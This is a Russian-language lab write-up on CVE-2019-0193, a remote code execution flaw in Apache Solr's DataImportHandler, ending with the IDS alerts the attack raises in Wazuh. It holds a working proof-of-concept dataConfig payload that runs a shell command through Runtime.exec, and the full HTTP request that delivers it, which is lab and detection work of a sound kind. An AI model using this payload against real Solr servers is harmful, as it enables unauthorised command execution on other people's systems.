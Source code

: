 # CVE-2019-0193

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2019-0193](https://nvd.nist.gov/vuln/detail/CVE-2019-0193)
* [https://www.opencve.io/cve/CVE-2019-0193](https://www.opencve.io/cve/CVE-2019-0193)

В Apache Solr DataImportHandler, необязательный, но популярный модуль для получения данных из баз данных и других источников, имеет функцию, благодаря которой вся конфигурация DIH может быть получена из запроса параметра «dataConfig». \[Режим отладки экрана администратора DIH использует это для удобной отладки/разработки конфигурации DIH.&#x20;

Поскольку конфигурации DIH могут содержать сценарии, злоумышленники могут создавать опасные запросы, которые могут привести к удаленному выполнению команд.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose up -d
docker compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

После запуска и создания нового ядра 'test' по адресу http://ваш-ip:8983 будет доступна веб-страница Apache Solr

<figure><img src="../../.gitbook/assets/cve-2019-0193(1).png" alt=""><figcaption></figcaption></figure>

Перейдите на вкладку с новым ядром, затем dataimport -> Debug-Mode и вставьте следующую полезную нагрузку:

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Затем нажмите кнопку `Execute with this Configuration`&#x20;

<figure><img src="../../.gitbook/assets/cve-2019-0193(2).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий запрос для успешной реализации уязвимости:

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=nNI9Q2RFGsJwDdNGaP5HHbW94e3aIVlTBNoKw9DjUnmRikDe4kOOEcTdK6mFnkc8
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://ваш-ip:8983/solr/
Content-Length: 683

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```

> Перед отправкой замените csrf-токен на ваш собственный

<figure><img src="../../.gitbook/assets/cve-2019-0193(3).png" alt=""><figcaption></figcaption></figure>

После отправки запроса был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/cve-2019-0193(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2019-0193(5).png" alt=""><figcaption></figcaption></figure>
